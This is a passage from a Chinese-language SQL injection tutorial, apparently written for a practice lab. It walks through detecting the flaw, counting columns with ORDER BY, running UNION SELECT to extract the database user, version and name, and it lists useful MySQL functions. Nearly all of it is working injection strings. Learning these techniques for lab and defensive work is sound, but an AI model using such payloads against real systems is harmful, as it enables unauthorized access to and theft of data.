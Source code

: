 2. 测试漏洞是否存在
``` 
select First name,Surname from users where id = ' 1 '
select First name,Surname from users where id = ' 1' and '1' = '1 '
select First name,Surname from users where id = ' 1' and '1 '
```

### 查询字段数
* 正常的SQL查询过程
> 在预置的”中进行插入语句，进行查询   
> select First name,Surname from users where id = ' <待输入的查询语句> '

* 测试字段数是否存在
``` 
select First name,Surname from users where id = ' ' order by 50--  '
select First name,Surname from users where id = ' ' order by 3--  '
select First name,Surname from users where id = ' ' order by 2--  '
```

### 联合查询

1. 正常的SQL查询过程
> 在预置的”中进行插入语句，进行查询  
> select First name,Surname from users where id = ' <待输入的查询语句> '

2. 测试字段数

``` 
select First name,Surname from users where id = ' ' union select 1,2--  '
select First name,Surname from users where id = ' 1' union select user(),2--  '
select First name,Surname from users where id = ' ' union select user(),2--  '
select First name,Surname from users where id = ' ' union select user(),version()--  '
```

### 可以使用的函数
1. 正常的SQL查询过程
> 在预置的”中进行插入语句，进行查询  
> select First name,Surname from users where id = ' <待输入的查询语句> '

2. 多函数查询
``` 
select First name,Surname from users where id = ' ' union select database(),substring_index(USER(),"@",1)--  '
B用户：user()

DB版本：version()
全局函数：@@datadir、@@hostname、@@VERSION、@@version_compile_os
当前库：database()
ASCII 转字符：char()
连接字符串：CONCAT_WS(CHAR(32,58,32),user(),database(),version())
计算哈希：md5()
```
### 综合查询
